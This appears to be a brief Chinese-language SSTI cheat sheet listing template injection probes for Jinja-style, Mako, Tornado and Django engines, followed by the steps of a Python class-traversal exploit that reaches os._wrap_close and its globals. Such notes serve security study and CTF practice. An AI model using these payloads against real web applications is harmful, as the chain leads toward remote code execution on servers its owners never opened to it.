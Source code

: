 

基础姿势

```
?name={{2*3}}
```



```
{{%s}}
```



Mako

```
${%s}
```



Tornado

```
{{%s}}
```



Django

```
{{}}
```





## ==漏洞利用==



1. 查看哪些类可以使用

```
{{''.__class__.__base__.__subclasses__()}}
```



2. 找利用类索引，就是找os_wrap_close这个函数的索引是啥，那后面写的就是啥

```
<class 'os._wrap_close'>
```



3. 找利用类方法(不一定是133，所以要去尝试一下)

```
{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__}}
```


